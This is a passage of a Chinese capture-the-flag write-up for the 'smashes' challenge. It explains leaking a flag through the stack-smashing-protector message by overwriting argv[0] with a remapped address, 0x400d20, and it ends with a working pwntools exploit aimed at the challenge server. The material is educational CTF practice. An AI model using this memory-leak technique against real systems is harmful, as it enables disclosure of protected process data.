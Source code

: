 输出结果令我们满意

```bash
[DEBUG] Received 0x56 bytes:
    'Thank you, bye!\n'
    '*** stack smashing detected ***: Hello!\n'
    "What's your name?  terminated\n"
```

但是，当我们把地址换成flag的地址时，却可以发现flag并没有被打印出来，那是因为在func_1函数的结尾处有这样一句：
```
memset((void *)((signed int)v1 + 0x600D20LL), 0, (unsigned int)(32 - v1));
```

所以，无论如何，等我们利用canary打印flag的时候，0x600D20上的值已经被完全覆盖了，因此我们无法从0x600D20处得到flag。

这就是这道题的第二个考点，ELF的重映射。当可执行文件足够小的时候，他的不同区段可能会被多次映射。这道题就是这样。

![](canary_b17d7868f95d135b35908e74805b7282.png)

可见，其实在0x400d20处存在flag的备份。

因此，最终的poc为：

```python
from pwn import *
context.log_level = 'debug'

cn = remote('pwn.jarvisoj.com', 9877)
#cn = process('pwn_smashes')
cn.recv()
cn.sendline(p64(0x0400d20)*200)
cn.recv()
cn.sendline()
cn.recv()

```

